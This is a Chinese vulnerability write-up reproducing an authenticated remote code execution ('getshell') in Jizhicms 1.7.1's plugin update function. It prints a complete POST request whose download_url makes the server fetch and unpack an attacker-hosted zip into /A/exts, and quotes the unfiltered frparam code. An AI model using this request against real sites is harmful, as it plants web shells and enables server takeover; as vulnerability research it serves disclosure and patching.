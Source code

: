 Jizhicms 1.7.1 后台getshell
===========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

    POST /admin.php/Plugins/update.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 80
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/admin.php/Plugins/
    Cookie: PHPSESSID=tq79jo8omp5s72lq101noj48lq

    action=start-download&filepath=msgphone&download_url=http://www.0-sec.org/test/a.zip

攻击者可以控制download\_url传入参数的值，从而传入被压缩的可执行脚本，然后该压缩包会被解压并传入到特定位置，实现getshell所以只需要攻击者在自己控制的网站上压缩可执行脚本然后将url赋值给download\_url即可实现任意文件上传定位下函数位置，该函数位于/A/c/PluginsController.php下的update函数![1.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1后台getshell/media/rId24.png)传进来的值通过frparam函数处理之后变赋值给了remote\_url跟进到frparam函数函数中，该函数位于/FrPHP/lib/Controller.php中

    public function frparam($str=null, $int=0,$default = FALSE, $method = null){

            $data = $this->_data;
            if($str===null) return $data;
            if(!array_key_exists($str,$data)){
                return ($default===FALSE)?false:$default;
            }
            if($method===null){
                $value = $data[$str];
            }else{
                $method = strtolower($method);
                switch($method){
                    case 'get':
                    $value = $_GET[$str];
                    break;
                    case 'post':
                    $value = $_POST[$str];
                    break;
                    case 'cookie':
                    $value = $_COOKIE[$str];
                    break;
                }
            }
            return format_param($value,$int);
        }

该函数并没有对传入的值进行过滤，只是简单的从data数组里取数据然后继续回到update函数，在获取到了remote\_url的值后便进行了下载以及解压缩的操作![2.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1后台getshell/media/rId25.png)![3.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1后台getshell/media/rId26.png)最后解压到的文件夹为/A/exts![4.png](/Users/aresx/Documents/VulWiki/.resource/Jizhicms1.7.1后台getshell/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7775\#toc-3
